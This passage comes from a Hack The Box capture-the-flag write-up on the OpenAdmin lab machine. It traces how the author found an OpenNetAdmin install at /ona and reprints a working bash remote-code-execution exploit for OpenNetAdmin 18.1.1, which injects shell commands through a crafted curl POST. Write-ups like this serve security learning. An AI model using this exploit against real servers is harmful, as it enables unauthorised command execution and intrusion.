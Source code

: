 After searching through source code, there was not much to be seen. No credentials, or places for user input. If you click on the login button on the *SolMusic* site (/music), it brings you back to the default Apache page, except the URL is now 10.10.10.171/ona/. 

#### ONA (Open Network Admin)

It was not until after googling 20+ mins for "Open Admin" Vulnerabilities, and seeing someone on a forum thread mention /ona again, that I realized /ona was important. 

Before we get there though, we should note that Open Admin is an [IBM tool](https://www.ibm.com/support/knowledgecenter/en/SSGU8G_12.1.0/com.ibm.oat.doc/ids_oat.htm){:target="_blank"}([2]), that also happens to have a somewhat new PHP RCE vulnerability. This is **NOT** the Open Admin service we are looking for. There is a metasploit module that corresponds to the vulnerability, but it does not work in our case.

So back to /ona. After extensive googling I was able to find a github repository for one [Open Net Admin](https://github.com/opennetadmin/ona){:target="_blank"}([3]). I am sure I am not the only one who went on a wild goose chase googling for Open Admin, only to discover what I really needed was *Open Net Admin*. Open Net Admin is an IP Address Management system, IPAM for short.

I found a recent exploit for the service on a few sites, but found the one by mattpascoe at [Packet Storm](https://packetstormsecurity.com/files/155406/OpenNetAdmin-18.1.1-Remote-Code-Execution.html){:target="_blank"} to be the most informative. See below:

~~~bash
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
~~~

**I used [explainshell](https://explainshell.com/){:target="_blank"} and looked through the vulnerable source code, but was unable to determine exactly how the exploit works. I looked for articles or videos, and still could not find anything. At this point, I understand it gives us Remote Code Execution. I wish I could explain how it works, but I will have to read other writeups first. ([9])**

We copied this script to our local machine and were able to execute almost any command as the `www-data` user. **Important: the single parameter we need to pass the payload is the address of the ONA login page. In our case it is 10.10.10.171/ona/login.php** I determined that after looking through the URL used for exploitation on [Exploit DB](https://www.exploit-db.com/exploits/47772){:target="_blank"} ([8]).

{:refdef: style="text-align: center;"}
![Known Exploit](../../assets/img/writeups/htb/openadmin/known_exploit.png)
{: refdef}
